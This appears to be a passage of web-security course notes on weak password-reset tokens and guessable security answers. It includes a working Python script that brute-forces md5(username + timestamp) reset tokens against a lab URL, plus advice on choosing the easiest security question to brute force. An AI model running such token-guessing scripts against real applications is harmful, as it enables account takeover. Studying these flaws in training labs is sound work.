 - Finally another bad implementation is using **reset tokens as temp passwords**. Any temporary password should be invalidated as soon as the user logs in and changes it. There are higher chances that temporary passwords are being generated using a predictable algorithm like mt_rand(), md5(username), etc., so make sure you test the algorithm’s security by analyzing some captured tokens.
- Bellow is an example of a script for bruteforcing a reset token:

```py
from hashlib import md5
import requests
from sys import exit
import time

url = "http://94.237.54.170:39641/question1/"

# to have a wide window try to bruteforce starting from 120seconds ago
now = int(time.time() * 1000)
print(now)
start_time = now - 4000
fail_text  = "Wrong token"
username = "htbadmin"

# loop from start_time to now. + 1 is needed because of how range() works
for x in range(start_time, now + 1000):
    # get token md5
    md5_token = md5((username + str(x)).encode()).hexdigest()
    data = {
        "submit": "check",
        "token": md5_token
    }

    print("checking {} {}".format(str(x), md5_token))

    # send the request
    res = requests.post(url, data=data)

    #print(res.text)

    # response text check
    if not fail_text in res.text:
        print(res.text)
        print("[*] Congratulations! raw reply printed before")
        exit()

``` 


## Guessable Answers

- We discourage the use of security answers because even when an application allows users to choose their questions, answers could still be predictable due to users’ negligence.
- To raise the security level, a web application should keep repeating the first question until the user answers correctly.
- When we find a web application that keeps rotating questions, we should collect them to identify the easiest to brute force and then mount the attack.
